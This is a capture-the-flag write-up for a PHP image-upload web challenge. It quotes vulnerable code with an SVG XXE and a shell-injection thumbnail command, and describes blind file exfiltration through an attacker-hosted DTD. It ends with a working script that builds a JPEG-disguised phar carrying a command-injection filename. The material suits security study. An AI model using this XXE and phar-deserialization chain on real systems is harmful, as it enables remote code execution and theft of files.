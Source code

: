 # Rubenscube 

**Category**: Web

424 Points

26 Solves

**Problem description**:
Sharing is caring. For picture wizard use only. 

---

This was also a pretty good problem. Visiting the challenge site, we are prompted with a upload form to upload pictures.

In the robots.txt

```
User-agent: *
Disallow: /harming/humans
Disallow: /ignoring/human/orders
Disallow: /harm/to/self
Disallow: source.zip
```

The source.zip gives all the source. We only care about upload.php. Here is the relevant code

```php
<?php
session_start();

function calcImageSize($file, $mime_type) {
    if ($mime_type == "image/png"||$mime_type == "image/jpeg") {
        $stats = getimagesize($file);  // Doesn't work for svg...
        $width = $stats[0];
        $height = $stats[1];
    } else {
        $xmlfile = file_get_contents($file);
        $dom = new DOMDocument();
        $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
        $svg = simplexml_import_dom($dom);
        $attrs = $svg->attributes();
        $width = (int) $attrs->width;
        $height = (int) $attrs->height;
    }
    return [$width, $height];
}


class Image {

    function __construct($tmp_name)
    {
        $allowed_formats = [
            "image/png" => "png",
            "image/jpeg" => "jpg",
            "image/svg+xml" => "svg"
        ];
        $this->tmp_name = $tmp_name;
        $this->mime_type = mime_content_type($tmp_name);

        if (!array_key_exists($this->mime_type, $allowed_formats)) {
            // I'd rather 500 with pride than 200 without security
            die("Invalid Image Format!");
        }

        $size = calcImageSize($tmp_name, $this->mime_type);
        if ($size[0] * $size[1] > 1337 * 1337) {
            die("Image too big!");
        }

        $this->extension = "." . $allowed_formats[$this->mime_type];
        $this->file_name = sha1(random_bytes(20));
        $this->folder = $file_path = "images/" . session_id() . "/";
    }

    function create_thumb() {
        $file_path = $this->folder . $this->file_name . $this->extension;
        $thumb_path = $this->folder . $this->file_name . "_thumb.jpg";
        system('convert ' . $file_path . " -resize 200x200! " . $thumb_path);
    }

    function __destruct()
    {
        if (!file_exists($this->folder)){
            mkdir($this->folder);
        }
        $file_dst = $this->folder . $this->file_name . $this->extension;
        move_uploaded_file($this->tmp_name, $file_dst);
        $this->create_thumb();
    }
}
new Image($_FILES['image']['tmp_name']);
header('Location: index.php');
```

So there's an obvious XXE when it tries to load SVG files, and the __construct and __destruct methods point to somewhat deserialization. 

I quickly hosted a dtd on my domain to help with blind exfiltration of files and soon enough I was able to read file by using the `php://` uri with their base64 encode filter...

At this point, I knew I have to use the phar:// uri in the XXE to make php deserialize my object (of the type Image) with a controlled filename, and when __destruct would be called, it would lead to a command execution in the create_thumb funtion

I used [this](https://www.nc-lp.com/blog/disguise-phar-packages-as-images) to create a valid phar file disguised as a jpeg image, uploaded it and then used the XXE to to call it with phar:// uri. 

```php
$jpeg_header_size = 
"\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xff\xfe\x00\x13".
"\x43\x72\x65\x61\x74\x65\x64\x20\x77\x69\x74\x68\x20\x47\x49\x4d\x50\xff\xdb\x00\x43\x00\x03\x02".
"\x02\x03\x02\x02\x03\x03\x03\x03\x04\x03\x03\x04\x05\x08\x05\x05\x04\x04\x05\x0a\x07\x07\x06\x08\x0c\x0a\x0c\x0c\x0b\x0a\x0b\x0b\x0d\x0e\x12\x10\x0d\x0e\x11\x0e\x0b\x0b\x10\x16\x10\x11\x13\x14\x15\x15".
"\x15\x0c\x0f\x17\x18\x16\x14\x18\x12\x14\x15\x14\xff\xdb\x00\x43\x01\x03\x04\x04\x05\x04\x05\x09\x05\x05\x09\x14\x0d\x0b\x0d\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14".
"\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\xff\xc2\x00\x11\x08\x00\x0a\x00\x0a\x03\x01\x11\x00\x02\x11\x01\x03\x11\x01".
"\xff\xc4\x00\x15\x00\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x08\xff\xc4\x00\x14\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xda\x00\x0c\x03".
"\x01\x00\x02\x10\x03\x10\x00\x00\x01\x95\x00\x07\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x05\x02\x1f\xff\xc4\x00\x14\x11".
"\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20".
"\xff\xda\x00\x08\x01\x02\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x06\x3f\x02\x1f\xff\xc4\x00\x14\x10\x01".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x21\x1f\xff\xda\x00\x0c\x03\x01\x00\x02\x00\x03\x00\x00\x00\x10\x92\x4f\xff\xc4\x00\x14\x11\x01\x00".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda".
"\x00\x08\x01\x02\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x10\x1f\xff\xd9";

$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test', 'text');
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");

$object = new Image('hack.png');
$object->file_name = " ;./flag_dispenser; ";
$phar->setMetadata($object);
$phar->addFile("./hax.php");
$phar->stopBuffering();
```

This gave me command execution and then we had to execute the `flag_dispenser` to get the flag.
